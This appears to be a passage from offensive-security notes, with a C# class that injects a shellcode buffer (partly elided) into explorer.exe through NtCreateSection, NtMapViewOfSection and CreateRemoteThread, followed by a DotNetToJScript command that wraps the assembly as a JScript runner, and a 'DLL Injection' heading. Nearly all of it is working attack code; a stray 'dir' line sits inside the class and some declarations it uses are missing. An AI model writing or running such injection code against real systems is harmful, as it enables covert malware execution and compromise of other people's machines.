 ```csharp
    [DllImport("ntdll.dll", SetLastError = true)]
    static extern uint NtUnmapViewOfSection(IntPtr hProc, IntPtr baseAddr);

    [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
    static extern int NtClose(IntPtr hObject);


    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    dir
    
    public TestClass()
    {
        Process[] explorerProcesses = Process.GetProcessesByName("explorer");
        int firstExplorerPid = explorerProcesses[0].Id;

        byte[] buf = new byte[643]
        { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,
        0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
        ...
        0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,
        0xd5 };

        IntPtr sHandle = new IntPtr();
        IntPtr lHandle = Process.GetCurrentProcess().Handle;
        IntPtr pHandle = OpenProcess(0x001F0FFF, false, firstExplorerPid);


        int len = buf.Length;
        uint uLen = (uint)len;
        long cStatus = NtCreateSection(ref sHandle, 0x10000000, IntPtr.Zero, ref uLen, 0x40, 0x08000000, IntPtr.Zero);

        IntPtr baseAddrL = new IntPtr();
        uint viewSizeL = uLen;
        ulong sectionOffsetL = new ulong();
        long mStatusL = NtMapViewOfSection(sHandle, lHandle, ref baseAddrL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out viewSizeL, 2, 0, 0x04);

        IntPtr baseAddrR = new IntPtr();
        uint viewSizeR = uLen;
        ulong sectionOffsetR = new ulong();
        long mStatusR = NtMapViewOfSection(sHandle, pHandle, ref baseAddrR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out viewSizeR, 2, 0, 0x20);

        Marshal.Copy(buf, 0, baseAddrL, len);

        CreateRemoteThread(pHandle, IntPtr.Zero, 0, baseAddrR, IntPtr.Zero, 0, IntPtr.Zero);

        uint uStatusL = NtUnmapViewOfSection(lHandle, baseAddrL);

        int clStatus = NtClose(sHandle);
    }
}
```
```cmd
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```
## DLL Injection

